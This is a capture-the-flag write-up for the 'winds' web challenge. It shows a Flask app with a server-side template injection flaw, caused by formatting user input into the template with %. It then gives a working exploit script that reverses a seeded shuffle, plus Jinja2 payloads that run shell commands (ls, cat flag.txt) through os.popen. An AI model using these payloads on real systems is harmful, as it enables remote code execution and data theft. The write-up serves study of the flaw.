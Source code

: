 # winds - Web

### Challenge description

### Challenge code

```python
import random

from flask import Flask, redirect, render_template_string, request

app = Flask(__name__)

@app.get('/')
def root():
    return render_template_string('''
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;">{{ error }}</div>
        </div>
    ''', error=request.args.get('error', ''))

@app.post('/shout')
def shout():
    text = request.form.get('text', '')
    if not text:
        return redirect('/?error=No message provided...')

    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    jumbled = ''.join(jumbled)

    return render_template_string('''
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;">{{ error }}</div>
            <div>
                Your voice echoes back: %s
            </div>
        </div>
    ''' % jumbled, error=request.args.get('error', ''))

@app.get('/style.css')
def style():
    return '''
        html, body { margin: 0 }
        .content {
            padding: 2rem;
            width: 90%;
            max-width: 900px;
            margin: auto;
            font-family: Helvetica, sans-serif;
            display: flex;
            flex-direction: column;
            gap: 1rem;
        }
    '''
```


---

### Solution

We are given a tiny Flask application serving HTML pages. The all point of the website is to take a user input in form, shuffle the characters and print it back to the user. There isn't much possibilities of exploit here. No database, no login nor session, no cookies, etc... 

Let’s take a look at what’s going on when the user submit an input. The form is going the make a `POST` request on the `/shout` route. The route itself redirect with an error message if no message is provided. Otherwise, it seed the random number generator with 0, shuffle a list containing our input and then format a template string with it. And our exploit will take place here. 
The template string is formatted using python string formatting operator `%` and not by passing the user input as argument of `render_template_string`.
This means we will able to write code and it will be directly interpret by Jinja2, the rendering engine used by Flask under the hood. This is an exploit known as Server Side Template Injection (SSTI). 

The way the server shuffe our input is not a problem as python pseudo-random number generator is seeded and we are given the value !

Let’s write a script to confirm our exploit. 

```python
import random
import requests
import argparse
random.seed(0)

def shuffle_input(input):
    indexes_jumbled = list(range(len(input)))
    random.shuffle(indexes_jumbled)
    ssti_jumbled = ""

    # By seeding python PRNG with the same value as the server
    # we can shuffle our SSTI input in a way that will make the server
    # unshuffle it and make Jinja evaluate our code.
    for i, j in enumerate(input):
        ssti_jumbled += input[indexes_jumbled.index(i)]

    return ssti_jumbled

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("input", type=str)
    args = parser.parse_args()

    headers = {'Content-Type': 'application/x-www-form-urlencoded'}

    # Jinja2 evaluate code inside tag block
    input = "{{" + args.input + "}}"
    data = shuffle_input(input)

    response = requests.post('https://winds.web.actf.co/shout', headers=headers, data={"text": data})

    print("Status code: ", response.status_code)
    print("Response: ", response.text)
```

To increase my feedback loop, i submit the payload directly in my script and i print the response.

```
$ python exploit.py "2 * 3"
Status code:  200
Response:  
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;"></div>
            <div>
                Your voice echoes back: 6
            </div>
        </div>
```
We got `6` ! We made the server do the math for us. Now we have a proper explotation, let’s get the flag.

First, we need to list all the files in the current working directory of the application. We have to trick a little bit because we cannot write proper python code inside Jinja2 tags. For example we can’t do `import os; os.popen('ls').read()`.
```
$ python exploit.py "self.__init__.__builtins__.__import__('os').popen('ls').read()"
Status code:  200
Response:  
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;"></div>
            <div>
                Your voice echoes back: app.py
flag.txt
requirements.txt

            </div>
        </div>
```

Nice, three files, `app.py`, `requirements.txt` and `flag.txt`.
```
$ python exploit.py "self.__init__.__builtins__.__import__('os').popen('cat flag.txt').read()"
Status code:  200
Response:  
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;"></div>
            <div>
                Your voice echoes back: actf{2cb542c944f737b85c6bb9183b7f2ea8}

            </div>
        </div>
```

Flag !
